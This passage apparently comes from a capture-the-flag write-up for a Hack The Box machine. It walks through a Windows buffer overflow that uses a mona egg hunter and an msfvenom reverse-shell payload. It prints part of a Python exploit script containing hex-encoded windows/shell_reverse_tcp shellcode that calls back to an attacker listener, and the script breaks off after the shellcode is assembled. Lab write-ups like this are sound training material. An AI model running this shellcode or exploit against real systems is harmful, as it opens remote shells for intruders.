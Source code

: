 If I take that address and tack it onto the end of 72 "A"s (in reverse order because of first-in-last-out) and then curl that string against my server, I jump to that memory address. This is where my egg hunter will go.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/69.png)
![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/70.png)

Then I can use `!mona egg -t valo` to generate a tiny program that finds "valovalo" somewhere in memory.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/71.png)

Next, I'll need some shellcode to execute. I'll use msfvenom to generate it.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/72.png)

I also set a listener to catch my shell.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/73.png)

Here is the python code I used to perform this exploit.

```python
#!/usr/bin/python
import socket
import binascii
import re

host = '10.129.229.241' # IP of the target
port = 80 # Port open on the target
egg = 'valo' # string used as the 'egg'

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=42069 -b '\x00' -f python
buf =  ''
buf += 'be62962325dbc3d97424f45f2b'
buf += 'c9b15283c70431770e031598c1'
buf += 'd0254c871bd58de89230bc28c0'
buf += '31ef9882171c52c6839716cfa4'
buf += '109c298ba18d0a8a21cc5e6c1b'
buf += '1f936d5c425e3f3508cdaf3244'
buf += 'ce44084856b9d96b776c513257'
buf += '8fb64ede97db6ba82c2f072be4'
buf += '61e880c94d1bd80e69c4af6689'
buf += '79a8bdf3a53d25532de58165e2'
buf += '7042694ff60c6e4edb278adbda'
buf += 'e71a9ff823467b6072222a9d64'
buf += '8d933bef20c731b22c24784cad'
buf += '220b3f9feda7d793666e20d35c'
buf += 'd6be2a5f2797e80b778fd9331c'
buf += '4fe5e1b31f495a74cf290a1c05'
buf += 'a6753c266c1ed7dde72b22d3f9'
buf += '4330eba1c1bd0dc3f9eb867c63'
buf += 'b65c1c6c6c191ee683ded10fe9'
buf += 'cc86ffa4ae01ff12c6ce92f816'
buf += '988e5641cd61af07e3d81935fe'
buf += 'bd62fd257e6cfca83a4aee74c2'
buf += 'd65a299580348f4f63ee59232d'
buf += '661f0feef0205a981c9033dd23'
buf += '1dd4e95c434415b7c7745c956e'
buf += '1d394c3340babb707d3949097a'
buf += '21380cc6e5d17c5780d5d35881'

# Put the egg before the shellcode so that the gunter can find it.
shellcode = (egg * 2) + binascii.unhexlify(buf)

```